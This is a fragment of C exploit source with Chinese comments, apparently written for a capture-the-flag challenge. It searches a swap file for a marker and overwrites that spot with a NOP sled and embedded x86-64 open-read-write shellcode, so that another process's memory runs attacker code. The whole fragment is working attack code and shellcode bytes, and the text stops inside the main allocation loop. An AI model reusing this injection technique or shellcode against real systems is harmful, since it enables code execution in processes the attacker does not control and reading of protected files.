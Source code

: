 ```c
    int read_cnt = 0;
    while (1){
        int res = fread(swap_buf, 1, swap_size-read_cnt, fp);
        read_cnt += res;
        if (res == 0) {
            if (read_cnt != swap_size) die("read failed");
            break;
        }
    }
    // 搜索特征字符串
    unsigned char* res = memmem(swap_buf, swap_size, NEEDLE, sizeof(NEEDLE));
    if (res != NULL){
        size_t offset = res - swap_buf;
        if (fseek(fp, offset, SEEK_SET) == -1) die("fseek failed");
        // sc_buf 用来将代码段填充成0xcc, 触发报错. 测试用.
        char sc_buf[0x100];
        memset(sc_buf, 0xcc, sizeof(sc_buf));
        
        unsigned char sc[] = { // needle for padding
            0x48, 0x63, 0xFF, 0xB8, 0xE7, 0x00, 0x00, 0x00, 0x0F, 0x05, 0xBA, 0x3C, 0x00, 0x00, 0x00, 0x48, 
            0x89, 0xD0, 0x0F, 0x05, 0xEB, 0xF9, 0x48, 0x89, 0xF8, 0x48, 0x89, 0xF7, 0x48, 0x89, 0xD6, 0x48, 
            0x89, 0xCA, 0x4D, 0x89, 0xC2, 0x4D, 0x89, 0xC8, 0x4C, 0x8B, 0x4C, 0x24, 0x08, 0x0F, 0x05, 0xC3,
// real shellcode
0x6a, 0x1, 0xfe, 0xc, 0x24, 0x48, 0xb8, 0x2f, 0x64, 0x65, 0x76, 0x2f, 0x66, 0x64, 0x30, 0x50, 0x48, 0x89, 0xe7, 0x31, 0xd2, 0x31, 0xf6, 0x6a, 0x2, 0x58, 0xf, 0x5, 0x48, 0x89, 0xc7, 0x31, 0xc0, 0x31, 0xd2, 0xb6, 0x1, 0xbe, 0x1, 0x1, 0x1, 0x1, 0x81, 0xf6, 0x1, 0x46, 0x71, 0x1, 0xf, 0x5, 0x6a, 0x1, 0x5f, 0x31, 0xd2, 0xb6, 0x1, 0xbe, 0x1, 0x1, 0x1, 0x1, 0x81, 0xf6, 0x1, 0x46, 0x71, 0x1, 0x6a, 0x1, 0x58, 0xf, 0x5
        };
        // 把needle段替换成 nop, 一直滑到orw shellcode
        memset(sc, 0x90, sizeof(NEEDLE));
        if (fwrite(sc, 1, sizeof(sc), fp) != sizeof(sc)) 
            die("fwrite failed");
        fclose(fp); 
        sleep(1);
        printf("found needle at offset : %p\n", offset);
        return 1;
    }
    memset(swap_buf, 0, swap_size);
    fclose(fp);
    return 0;
}

int main(int argc, char *argv[]){
    // consume some ram first
    for(int i=0; i<10; i++){
        void *res = mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
        if (res == (void *) -1) die("mmap error");
        memset(res, 0xcc, PAGE_SIZE);
    }

    printf("swap_buf at %p\n", swap_buf);

    // 不停地申请内存, 每次申请都搜索一次swap文件.
    int i = 0;
    while(++i < (320*6)){
        void *res = mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
        if (res == (void *) -1) die("mmap error");
```